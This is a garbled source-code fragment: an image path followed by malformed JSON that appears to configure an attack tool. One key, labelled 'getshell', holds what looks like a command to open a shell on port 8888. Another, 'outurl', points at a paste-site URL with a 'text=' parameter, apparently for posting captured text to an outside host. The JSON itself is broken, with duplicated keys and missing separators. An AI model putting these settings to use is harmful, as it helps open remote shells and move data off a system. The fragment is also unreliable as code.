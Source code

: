 {"all":{"getshell":"r t 127.0.0.1 8888~open"}"all":{"outurl":"http://kl1p.com/m9s8?save=true&id=96501&type=code&name=m9s8&nid=&param=text%2Fplain&client=web&text="}}
